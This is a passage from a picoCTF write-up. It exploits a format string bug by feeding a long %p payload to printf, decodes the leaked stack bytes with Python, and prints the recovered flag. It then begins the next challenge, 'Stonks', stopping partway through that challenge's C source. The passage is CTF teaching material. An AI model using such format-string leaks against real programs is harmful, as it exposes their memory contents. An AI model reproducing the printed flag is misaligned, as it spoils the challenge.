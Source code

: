 Here is the checksec result:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We have a format string vulnerability here:
```c
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
```

We control what will be given to the `printf` function. As we don't know the size of `secret-menu-item-1.txt` or `secret-menu-item-2.txt`, it can be quite tricky to know where in memory the `flag.txt` string is. So I just decided to put a bunch of `%p` and see what I get

```
Give me your order and I'll read it back to you:
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,
Here's your order: 0x402118,(nil),0x760c1fa2da00,(nil),0x11a1880,0xa347834,0x7ffcaa973f50,0x760c1f81ee60,0x760c1fa434d0,0x1,0x7ffcaa974020,(nil),(nil),0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x30355f673431665f,0x7d343663363933,0x7,0x760c1fa458d8,0x2300000007,0x206e693374307250,0xa336c797453,0x9,0x760c1fa56de9,0x760c1f827098,0x760c1fa434d0,(nil),0x7ffcaa974030,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,
```

Starting from the 14th pointer, there is the string. We can check it by doing:
```python
>>> int.to_bytes(0x7b4654436f636970, 8, 'little')
b'picoCTF{'
```

If we do the same with the next values, we get the flag.

flag: `picoCTF{4n1m41_57y13_4x4_f14g_50396c64}`

## Stonks

Here is the source code:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define FLAG_BUFFER 128
#define MAX_SYM_LEN 4

typedef struct Stonks {
        int shares;
        char symbol[MAX_SYM_LEN + 1];
        struct Stonks *next;
} Stonk;

typedef struct Portfolios {
        int money;
        Stonk *head;
} Portfolio;
```